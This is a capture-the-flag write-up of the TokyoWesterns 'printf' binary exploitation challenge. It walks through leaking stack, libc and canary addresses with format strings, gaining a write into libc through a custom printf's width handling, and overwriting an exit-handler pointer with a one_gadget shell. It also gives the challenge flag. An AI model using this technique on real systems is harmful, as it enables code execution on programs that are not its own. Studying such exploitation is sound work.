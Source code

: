 For this challenge, we are given a binary, libc, and linker. The first thing to do is use [patchelf](https://github.com/NixOS/patchelf) so that the binary will be loaded with the correct linker/libc combination. Once this is done, I checked the security levels for the program with checksec. 
```
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
 ```
 Okay, so all protections are turned on. Let's see what the program does.  This is the output by inputing "a\n" for the first prompt and "hello\n" for the second:
 
 ```
 ./printf
 What's your name?
 Hi,
a
Do you leave a comment? 
hello
 ```
 
 Giving a quick look over the binary in IDA, it is clear that the challenge is running printf on an uncontrolled user string twice. The twist here is that the printf is a custom implementation with ```%n``` disabled. Generating a leak is pretty easy by using the ```%lx``` format specifier. For example:
 
 ```
 What's your name?
%lx %lx %lx %lx
Hi,
0 7ffff7fc8580 7ffff7eee024 4
```

As you can see, we leaked some information from the stack. We are limited to 0x100 input bytes for the first format string, so by putting in a bunch of ```%lx``` tokens, we can leak the base address of the stack, libc, binary, and canary quite easily. 

Okay, with the data leaked we now need to figure out how to write. I spent a long time reversing the printf function and found two interesting things. First, the printf implementation will build the string that it eventually calls ```puts``` on in a different location than your originally provided string. Second, by placing a number after the percent format specifier (```%1000lx``` for example) we are able to adjust the stack pointer by about 1000 bytes. There is a check in the program to ensure the number we provide after the ```%``` is not negative. Thus, we cannot write up the stack and target a return pointer. 

I spent a lot of time experimenting with this by trying to use multiple ```%x``` specifiers to see if I could cause a negative number to be added to the stack pointer. Unfortunatley, this didn't work. However, I realized I was missing something. What is located past the end of the stack in the memory layout? Libc of course! So, by adjusting the number we put after the ```%``` specifier, we can obtain arbitrary write in libc. 

When ```libc_start_main``` returns, it will call the ```exit()``` function. This is important, because a bunch of function pointers are called before the process actually exits. You can check out where this is done in the source code here: [https://code.woboq.org/userspace/glibc/stdlib/exit.c.html](https://code.woboq.org/userspace/glibc/stdlib/exit.c.html). All we need to do now is overwrite one of these function pointers and we will have control of ```rip```!

Before I did this, I checked to see if there were any useful one\_gadgets in the libc we were given. Using the awesome tool [one\_gadget](https://github.com/david942j/one_gadget), was able to easily find 4!

```
one_gadget libc.so.6
0xe237f execve("/bin/sh", rcx, [rbp-0x70])
constraints:
  [rcx] == NULL || rcx == NULL
  [[rbp-0x70]] == NULL || [rbp-0x70] == NULL

0xe2383 execve("/bin/sh", rcx, rdx)
constraints:
  [rcx] == NULL || rcx == NULL
  [rdx] == NULL || rdx == NULL

0xe2386 execve("/bin/sh", rsi, rdx)
constraints:
  [rsi] == NULL || rsi == NULL
  [rdx] == NULL || rdx == NULL

0x106ef8 execve("/bin/sh", rsp+0x70, environ)
constraints:
  [rsp+0x70] == NULL
```

When I first attacked a function pointer in libc, I made sure to replace it with junk (such as 'CCCCCCCC') so that I could inspect the segfault easily and see the state of the registers at the time of the crash. 
```
Program received signal SIGSEGV, Segmentation fault.
0x00007ffff7e28398 in ?? () from target:/home/a/Desktop/tokyo/libc.so.6
LEGEND: STACK | HEAP | CODE | DATA | RWX | RODATA
───────────────────────[ REGISTERS ]───────────────────────
 RAX  0x0
 RBX  0x7ffff7fc76c8 ◂— 0x4343434343434343 ('CCCCCCCC')
 RCX  0x0
 RDX  0x0
 RDI  0x555555559010 ◂— 0x0
 RSI  0x1
 R8   0x555555559008 ◂— 0x555555559008
 R9   0x7ffff7fcd540 ◂— 0x7ffff7fcd540
 R10  0x7fffffffe2b4 ◂— 0x1
 R11  0x2
 R12  0x7ffff7fc76d0 —▸ 0x7ffff7ec3383 (execvpe+979) ◂— mov    rsi, rcx
 R13  0x1
 R14  0x7ffff7fcb108 ◂— 0x0
 R15  0x0
 RBP  0x0
 RSP  0x7fffffffe3f0 ◂— 0x20786c2520786c25 ('%lx %lx ')
 RIP  0x7ffff7e28398 ◂— call   qword ptr [rbx]
────────────────────────[ DISASM ]─────────────────────────
 ► 0x7ffff7e28398    call   qword ptr [rbx]

   0x7ffff7e2839a    add    rbx, 8
   0x7ffff7e2839e    cmp    rbx, r12
   0x7ffff7e283a1    jne    0x7ffff7e28398
    ↓
 ► 0x7ffff7e28398    call   qword ptr [rbx]

   0x7ffff7e2839a    add    rbx, 8
   0x7ffff7e2839e    cmp    rbx, r12
   0x7ffff7e283a1    jne    0x7ffff7e28398
    ↓
 ► 0x7ffff7e28398    call   qword ptr [rbx]

   0x7ffff7e2839a    add    rbx, 8
   0x7ffff7e2839e    cmp    rbx, r12
─────────────────────────[ STACK ]─────────────────────────
00:0000│ rsp  0x7fffffffe3f0 ◂— 0x20786c2520786c25 ('%lx %lx ')
01:0008│      0x7fffffffe3f8 ◂— 0x120786c25
02:0010│      0x7fffffffe400 ◂— '%lx %lx '
03:0018│      0x7fffffffe408 ◂— 0x0
04:0020│      0x7fffffffe410 —▸ 0x555555556a40 ◂— push   r15
05:0028│      0x7fffffffe418 —▸ 0x5555555550d0 ◂— xor    ebp, ebp
06:0030│      0x7fffffffe420 —▸ 0x7fffffffe520 ◂— 0x1
07:0038│      0x7fffffffe428 ◂— 0x0
───────────────────────[ BACKTRACE ]───────────────────────
 ► f 0     7ffff7e28398
   f 1     7ffff7e283da
   f 2     7ffff7e07b72 __libc_start_main+242
Program received signal SIGSEGV (fault address 0x0)
```

Luckily, both RCX and RDX are NULL at the time of the crash! All we have to do is write the one\_gadget located at offset 0xe2383 to the location of the function pointer (0x7ffff7fc76c8) in libc and we will get a shell!

That's it! From here, you just run the script and get a flag! TWCTF{Pudding_Pudding_Pudding_purintoehu}

